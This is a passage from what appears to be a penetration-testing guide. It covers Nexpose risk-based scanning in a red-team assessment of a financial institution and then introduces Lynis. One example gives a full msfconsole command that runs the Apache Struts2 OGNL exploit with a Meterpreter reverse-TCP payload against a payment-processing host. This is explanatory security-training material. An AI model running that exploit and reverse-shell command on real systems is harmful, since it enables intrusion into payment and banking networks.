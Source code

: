To use this script:

```bash
./nexpose_critical_vulns.py --url https://localhost:3780 --username admin --password password --threshold 8.5 --output high_risk_vulns.csv
```

### Example: Risk-Based Penetration Testing

During a red team assessment for a financial institution, we used Nexpose to guide our penetration testing strategy:

1. **Initial Discovery**:
   - Performed a discovery scan to map the network
   - Identified asset groups (DMZ, core banking, support systems)
   - Created custom scan templates for different asset groups

2. **Risk-Based Scanning**:
   - Ran comprehensive scans on high-value assets
   - Used authenticated scanning for internal systems
   - Generated risk heat maps to guide exploitation efforts

3. **Targeted Exploitation**:
   - Prioritized vulnerabilities with high risk scores and available exploits
   - Focused on weaknesses in the DMZ as initial entry points
   - Used Nexpose's findings to plan attack paths to crown jewels

4. **Discovery and Leverage**:
   The assessment revealed an unexpected vulnerability in a third-party payment processing system:

   ```bash
   # Extract payment system vulnerabilities
   grep "payment" nexpose_results.csv > payment_system_vulns.csv
   
   # Analysis revealed an unpatched Apache Struts vulnerability
   # Set up exploit
   msfconsole -q -x "use exploit/multi/http/struts2_content_type_ognl;
   set RHOSTS 192.168.23.45;
   set RPORT 8443;
   set SSL true;
   set TARGETURI /payment-processing/;
   set PAYLOAD java/meterpreter/reverse_tcp;
   set LHOST 10.0.0.5;
   run"
   ```

   This vulnerability provided access to the payment processing network, which had insufficient network segmentation from the core banking systems.

This example demonstrates how Nexpose's risk scoring helped us prioritize our attack vectors and focus on the paths most likely to yield high-value access.

## Lynis: Linux Security Auditing

Lynis is a powerful open-source security auditing tool for Linux, macOS, and Unix-based systems. It performs comprehensive security checks to identify misconfigurations, vulnerabilities, and non-compliance with security policies and standards.
